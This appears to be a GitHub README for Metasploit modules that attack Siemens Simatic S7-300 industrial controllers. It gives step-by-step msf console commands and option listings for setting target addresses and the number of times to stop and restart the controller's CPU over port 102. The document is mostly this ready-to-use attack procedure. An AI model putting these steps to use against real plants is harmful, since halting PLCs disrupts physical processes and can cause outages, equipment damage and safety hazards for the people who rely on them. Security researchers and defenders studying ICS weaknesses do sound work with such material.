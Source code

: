 s7-metasploit-modules
=====================

Siemens Simatic S7 Metasploit Modules

The Siemens Simatic S7 modules are fairly straightforward. Set the the IP address(s) in RHOSTS
and the cycle to the number of times you would like to start and stop the CPU. 

For example, if you only want to stop and start the CPU once use this command in metasploit.

	set CYCLES 1

msf  auxiliary(simatic_s7_300_command) > show options

Module options (auxiliary/admin/scada/simatic_s7_300_command):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CYCLES   10               yes       Set the amount of CPU STOP/RUN cycles.
   MODE     false            no        Set true to put the CPU back into RUN mode.
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    102              yes       The target port
   THREADS  1                yes       The number of concurrent threads

msf  auxiliary(simatic_s7_300_command) > set CYCLES 1
CYCLES => 1
msf  auxiliary(simatic_s7_300_command) > show options

Module options (auxiliary/admin/scada/simatic_s7_300_command):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CYCLES   1                yes       Set the amount of CPU STOP/RUN cycles.
   MODE     false            no        Set true to put the CPU back into RUN mode.
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    102              yes       The target port
   THREADS  1                yes       The number of concurrent threads

